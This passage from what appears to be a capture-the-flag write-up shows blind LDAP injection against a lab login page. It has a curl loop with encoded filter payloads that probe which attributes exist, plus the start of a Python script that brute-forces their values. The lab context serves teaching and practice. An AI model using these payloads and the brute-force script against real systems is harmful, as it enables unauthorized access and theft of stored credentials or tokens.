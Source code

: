     
    
    root@kali# cat ldap_elements 
    fascimileTelephonenNumer
    homePhone
    mail
    mobile
    pager
    street
    userPassword
    

Then I wrote a loop to to check each one in this query:

    
    
    *)(${attrib}=*
    

That would make the query on CTF look something like:

    
    
    &(uid=*)(${attrib}=*)
    

That would return true if the attribute had anything in it:

    
    
    root@kali# for attrib in $(cat ldap_elements); do echo -n "${attrib}   "; curl -s http://10.10.10.122/login.php -d "inputUsername=%252a%2529%2528${attrib}%253d%252a&inputOTP=" | grep -A1 '<div class="col-sm-10">' | grep '</div>'; done
    fascimileTelephonenNumer       User %2a%29%28fascimileTelephonenNumer%3d%2a not found    </div>
    homePhone       User %2a%29%28homePhone%3d%2a not found    </div>
    mail       Cannot login    </div>
    mobile       User %2a%29%28mobile%3d%2a not found    </div>
    pager       Cannot login    </div>                  
    street       User %2a%29%28street%3d%2a not found    </div>
    userPassword       Cannot login    </div>
    

So now I have three potential attributes that might hold the token string,
`mail`, `pager`, and `userPassword`.

#### Brute the Values

I wrote a python script to brute force the values:

    
    
      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 import string
      5 import sys
      6 import time
      7 
      8 def brute_next_char(inputUsernameStr, chars):
      9 
     10     for c in chars:
     11         while True:
     12             try:
     13                 time.sleep(0.3)
     14                 resp = requests.post('http://10.10.10.122/login.php', data={'inputUsername': inputUsernameStr.format(c=c), 'inputOTP': '0000'})
     15                 break
     16             except requests.exceptions.ConnectionError:
     17                 time.sleep(10)
     18                 continue
     19         if 'Cannot login' in resp.text:
     20             sys.stdout.write(c)
     21             sys.stdout.flush()
     22             return c
